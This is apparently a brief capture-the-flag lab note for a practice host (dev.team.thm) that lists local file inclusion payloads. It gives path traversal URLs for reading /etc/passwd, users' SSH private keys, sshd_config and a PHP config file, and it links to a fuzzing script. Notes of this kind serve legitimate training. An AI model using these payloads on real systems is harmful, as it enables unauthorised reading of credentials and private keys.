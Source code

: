 **MANUAL**
==Get local users and passwords==
url: dev.team.thm/script.php?page=teamshare.php
try: dev.team.thm/script.php?page=../../../../../etc/passwd

==Get ssh key==
url: dev.team.thm/script.php?page=teamshare.php
try: dev.team.thm/script.php?page=/home/USER:/.ssh/id_rsa
try: dev.team.thm/script.php?page=/etc/ssh/sshd_config

[[id_rsa (private key)]]

==Get PHP config file==
url: dev.team.thm/script.php?page=teamshare.php
try: dev.team.thm/script.php?page=/var/www/html/config.php

**AUTO**
[[LFI (FUZZING Script)]]

